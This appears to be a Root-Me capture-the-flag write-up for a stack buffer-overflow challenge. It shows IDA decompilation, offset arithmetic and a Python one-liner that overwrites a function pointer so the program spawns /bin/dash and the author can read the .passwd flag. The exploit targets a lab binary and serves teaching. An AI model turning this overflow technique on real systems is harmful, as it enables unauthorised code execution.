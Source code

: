 ### S0lv3d by H4yicl3
First I download binary file with my scp-script

````
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```
I use IDA to analysis the code

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int buffer; // [sp+1Ch] [bp-84h]@1	 //the position of buffer is sp+0x1c	
  int (*v5)(void); // [sp+9Ch] [bp-4h]@2  //the position of pointer function is sp+0x9c

  v5 = sup;
  fgets((char *)&v4, 133, stdin);
  return v5();
}
```

We already have the position of pointer function and buffer we can overflow the buffer try to change the address pointer function .

```
address function - address buffer = sp+0x9c - (sp+0x1c) = 0x80 = 128


|    function	|
|    pointer	|<------ overflow this
|    +	//////	|
|    |	buffer	| 
|    |  128byte	| 
|    |	//////	|
|    |		|
|		| stack

```
see the stack may be you know !
This is how we understand the stack and overflow look like .Now we get idea.
But where we want point to?

In the program we already have a function shell to excute /bin/dash
SO we just redirect program point to it !!

use IDA or GDB we can know the address of shell function
```asm
.text:08048464 shell           proc near	
.text:08048464                 push    ebp
.text:08048465                 mov     ebp, esp
.text:08048467                 sub     esp, 18h
.text:0804846A                 mov     dword ptr [esp], offset command ; "/bin/dash"
.text:08048471                 call    _system
.text:08048476                 leave
.text:08048477                 retn
.text:08048477 shell           endp

```
shell is at 0x08048464
in memory we need change it to little endian 
> shell = "\x64\x84\x04\x08"
```python
(python -c 'print "A"*128+"\x64\x84\x04\x08"';cat)|./ch15

```

Now we have permission to cat file .passwd!
